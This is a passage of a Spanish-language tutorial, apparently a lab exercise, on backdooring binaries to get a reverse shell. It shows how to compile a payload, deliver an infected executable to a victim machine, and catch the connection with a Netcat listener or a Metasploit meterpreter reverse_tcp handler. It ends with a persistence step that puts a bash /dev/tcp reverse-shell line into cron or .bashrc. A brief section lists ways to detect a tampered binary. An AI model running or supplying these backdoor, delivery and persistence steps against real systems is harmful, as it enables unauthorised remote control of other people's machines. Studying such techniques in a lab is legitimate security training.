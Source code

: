 Compila:

```bash
gcc payload.c -o payload
```

Ahora podrías combinar ambos con herramientas de empaquetado o incluso hacer ingeniería inversa con `objcopy` (tema más avanzado).

---

### 🚀 ENVÍO Y EJECUCIÓN EN LA MÁQUINA VÍCTIMA

1. Transfiere el archivo `archivo_infectado.exe` o binario modificado a la víctima.

   - Por red, USB, carpeta compartida, `python3 -m http.server`, etc.

2. En la Kali, escucha con Netcat o Metasploit:

#### Opción A: Netcat

```bash
nc -nlvp 4444
```

#### Opción B: Metasploit

```bash
msfconsole

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.100.10
set LPORT 4444
exploit
```

3. En la VM víctima, ejecuta el archivo.

🎉 ¡Obtendrás una shell reversa de la víctima!

---

### 🔎 ¿Cómo detectar un binario backdooreado?

- Con `strings`, `file`, `ltrace` o `strace` en Linux.
- Comparar el `hash` del binario con uno original (`sha256sum`).
- Usar antivirus o escáner de comportamiento.

---

### 🧪 OTRO EJEMPLO: Backdoor persistente en binario Linux

1. Modifica un script ejecutable que siempre se ejecuta (como un cron o `.bashrc`)
2. Añade esto al principio:

```bash
bash -i >& /dev/tcp/192.168.100.10/4444 0>&1
```
